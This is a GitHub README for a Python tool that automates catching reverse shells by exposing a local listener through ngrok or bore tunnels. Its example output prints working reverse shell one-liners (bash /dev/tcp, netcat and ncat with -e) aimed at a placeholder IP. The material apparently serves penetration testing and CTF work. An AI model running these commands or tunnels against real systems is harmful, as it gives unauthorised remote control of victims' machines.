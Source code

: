 # Tunnelvision

Automate reverse shell setup using tunnel services (ngrok or bore).

## What it does

- Sets up a local listener on your chosen port
- Creates a TCP tunnel (ngrok or bore) to expose your listener publicly
- Displays ready-to-use example reverse shell commands with your public IP/port
- Automatically upgrades Linux shells for better interactivity
- Supports both Linux/Mac and Windows shells

## Installation

```bash
# Clone the repository
git clone https://github.com/Nissen96/tunnelvision.git
cd tunnelvision

# Install dependencies with uv (recommended)
uv sync

# Or optionally with pip (a venv is recommended)
pip install .
```

## Setup

### For bore (recommended - no setup required!)
Bore works out of the box with no authentication or setup required. Just install bore:

```bash
# Install bore (choose one method)

# Option 1: Install with cargo
cargo install bore-cli

# Option 2: Download binary from releases
# https://github.com/ekzhang/bore/releases

# Option 3: Install with package manager
# macOS: brew install bore-cli
# Arch Linux: yay -S bore
```

#### Self-hosting bore server
You can optionally run your own bore server for better control:

```bash
# Start your own bore server
bore server

# Use your server with this tool
uv run revshell.py 4444 --to your-server.com
```

### For ngrok
If you want to use ngrok instead of bore:

1. Install ngrok Python package:
   ```bash
   pip install ngrok
   ```

2. Sign up for an [ngrok account](https://dashboard.ngrok.com/signup) if you don't have one.
3. Get your ngrok auth token: [Your Authtoken](https://dashboard.ngrok.com/get-started/your-authtoken)
4. Set your auth token:
   ```bash
   export NGROK_AUTHTOKEN=your_token_here
   ```
   Or create a `.env` file:
   ```
   NGROK_AUTHTOKEN=your_token_here
   ```

## Usage

*Note: Replace `uv run` with `python` if you installed with `pip`*.

```bash
# Basic usage (defaults to bore tunnel and bash shell)
uv run revshell.py 4444

# Use ngrok instead
uv run revshell.py 4444 --tunnel ngrok

# Specify shell type
uv run revshell.py 4444 --shell powershell
uv run revshell.py 4444 --tunnel bore --shell sh
uv run revshell.py 4444 --tunnel ngrok --shell bash

# Use custom bore server
uv run revshell.py 4444 --to my-bore-server.com
uv run revshell.py 4444 --tunnel bore --to localhost:7835

# Short options
uv run revshell.py 4444 -t ngrok -s powershell

# Skip printing reverse shell examples
uv run revshell.py 4444 --quiet
uv run revshell.py 4444 -q
```

## Options

- **PORT**: Local port to listen on (1-65535) - positional argument
- **--tunnel, -t**: Tunnel type - 'ngrok' or 'bore' (default: bore)
- **--shell, -s**: Shell type for reverse shell examples (default: bash)
- **--to**: Remote server for bore tunnel (default: bore.pub). Only used with bore tunnel.
- **--quiet, -q**: Don't print reverse shell examples

### Supported Shells

**Linux/Unix:**
- `sh`, `bash`, `zsh`, `fish`, `dash`, `ash`, `ksh`, `csh`, `tcsh`, `mksh`, `pdksh`

**Windows:**
- `powershell`, `pwsh`, `cmd`

**Note:** You can specify any shell name - the tool will generate appropriate reverse shell examples for the specified shell.
However, the shell will not be attempted upgraded if it is unknown.

## Example Output

```
[+] Setting up bore tunnel...
[+] Listening at 1.2.3.4:12345 (bore.pub)...

=============== REVSHELL EXAMPLES ===============

Bash:
────────────────────────────────────────────
bash -i >& /dev/tcp/1.2.3.4/12345 0>&1
────────────────────────────────────────────

Netcat:
────────────────────────────────────────────
nc 1.2.3.4 12345 -e bash
ncat 1.2.3.4 12345 -e bash
────────────────────────────────────────────

[+] Waiting for connection...
    Press Ctrl+C to exit
```

## Features

- **Multiple tunnel options**: Choose between bore or ngrok
- **Automatic shell upgrade**: Linux shells get PTY upgrades, aliases, and proper terminal settings
- **Multiple examples**: Bash, Netcat, Python, Perl, Ruby, and PowerShell reverse shells
- **Clean exit**: Automatically closes tunnels when you exit
- **Cross-platform**: Works on Linux, macOS, and Windows

## Requirements

- Python 3.9+
- bore (required for bore tunnels)
- ngrok Python package (optional, only needed for ngrok tunnels)
- `uv` package manager (recommended) or `pip`

## License

MIT
